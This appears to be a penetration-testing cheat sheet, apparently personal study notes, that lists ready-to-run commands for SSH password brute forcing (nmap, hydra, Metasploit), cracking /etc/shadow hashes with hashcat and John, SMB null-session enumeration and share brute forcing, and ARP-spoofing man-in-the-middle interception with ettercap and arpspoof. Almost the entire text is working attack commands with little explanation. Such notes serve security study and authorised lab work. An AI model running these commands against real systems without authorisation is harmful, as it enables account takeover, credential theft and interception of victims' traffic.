 #### Authentication Cracking
|Types|Bruteforce Attack | Dictionary Attack |
|---|---|---|

> Factors Affecting Online Password Cracking: Latency, Delay, Processing time,etc....

#### SSH Bruteforce With Nmap

```
nmap 192.168.143.67 -p 22 --script ssh-brute --script-args userdb=username.txt,passdb=password.txt

```

#### SSH Bruteforce With Hydra
```
hydra -l student -P /usr/share/wordlists/rockyou.txt ssh://192.194.185.3 -f

```

#### SSH Bruteforce With Metasploit
```
scanner/ssh/ssh_login module
```

#### Crack /etc/hashes With hahcat and John
```
/etc/login.defs >> Check Hashing Algorithm

hashcat -m 1800 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt --force

john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt

```

#### nULl Session Attack

> Allows user to connect to network without valid password in windows server.

```
smbclient //10.10.10.10/C$ -N

enum4linux -U 192.168.23.1 >> Enumerate Users

enum4linux -n 192.168.23.1 >> NBT stat

enum4linux -P 192.168.23.1 >> GIVES PASSWORD POLICY ON REMOTE MACHINE

enum4linux -S 192.168.23.1 >> LIST SHARES

enum4linux -s /usr/share/enum4linux/share-list.txt 192.168.23.1  >> Bruteforce Shares

enum4linux -A 192.168.23.1 >> FULL ENUM

sambrdump.py 192.168.23.1 

nmap -script=smb-enum-shares,smb-enum-users,smb-brute 192.168.23.1


```

> Note: Sometime we maynot see shares using enum4linux we can bruteforce the  users and try connecting to respective shares using -N flag.
#### Accessing Public Shares with smbclient

```
smbclient //192.123.28.3/demo
```

#### Check perm across Shares

```
smbmap -H host
```

#### Mitm Attack Using Ettercap
* Enumerate live hosts using nmap.

```
nmap -sn 192.168.3.0/24
```

#### Enable IP Forwarding in Linux

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
sudo ettercap -T -S -i eth0 -M arp:remote /10.0.0.1// /10.0.0.129//

-T  - text only
-S  - No ssl
-M  - Method
10.10.0.1  - Router
10.0.0.129 - Victim
```
* Start Wireshark with root perm
```
ip.addr == 10.0.0.129 && http

```

#### ARP Spoffing with arpspoof
```
echo 1 > /proc/sys/net/ipv4/ip_forward

```
![Screenshot at 2022-12-26 08-48-02](https://user-images.githubusercontent.com/85208639/209495031-02a909f6-3b0c-43e8-a92c-b2a297a4d018.png)

![Screenshot at 2022-12-26 08-49-05](https://user-images.githubusercontent.com/85208639/209495073-78db59ef-6526-4608-b3a6-6b4ad510fdb2.png)
